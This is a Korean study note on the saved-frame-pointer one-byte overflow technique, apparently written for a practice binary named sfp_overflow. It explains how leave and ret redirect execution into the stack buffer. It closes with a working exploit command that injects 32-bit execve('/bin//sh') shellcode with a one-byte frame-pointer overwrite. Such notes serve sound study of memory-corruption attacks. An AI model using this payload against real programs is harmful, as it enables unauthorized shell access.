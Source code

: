 # SFP overflow


---


*stack의 구조를 보자.*



> RET


> SFP


> buf


일케 되어있다 쳤을 때...

buf의 제일 윗부분, 저 거꾸로된 stack상에서는 제일 꼬랑지에 buf의 위치를 나타내는 주소가 붙어있다고 함. 이걸 이용해볼거에요.


**BOF를 일으켜 SFP에 buf의 주소값 + 두칸(32bit면 8byte)을 집어넣는겁니다.**

SFP가 ebp를 가리키는 포인터자나요. 그니까 이렇게 해주면은 원래 함수의 종료 시점에서... 

-


## leave(mov esp ebp, pop ebp) 


할 때 

esp에 ebp를 넣어주고, ebp에는 stack에서 pop된, 그니까 그 아래거를 넣어줄텐데 그게 SFP고, 우리가 덮어씌운 [ buf 주소의 윗칸 ]인거임. 그리고...




*


## ret(pop eip, jmp eip)

되면... 


거기서 또 pop되서 나오는 그 하나 아랫칸이 가리키는 곳으로 짬푸하게 될텐데, 그 아랫칸이 [ buf의 주소 부분 ]이니까 buf로 짬푸하는거임. 



> 이 때 buf 값으로 shellcode를 넣어두면 쉘을 따낼 수 있다. 와 ! ! 


***

예를 들어 


> ./sfp_overflow `python -c "print [shellcode] + '\x00' + [buf크기-shellcode크기-1 만큼의 dummy] + [buf 주소-8(32bit일때)의 마지막 한 byte]"`


buf 주소-8은 leave시점에서 p $esp-8 하면 바로 나옴.


buf가 32byte고, buf 주소가 0xffffd6cc일 때,
p/x 0xffffd6cc - 0d8 = 0xffffd6c4


> ./sfp_overflow `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'+'\x90'*7+ '\xc4'"`


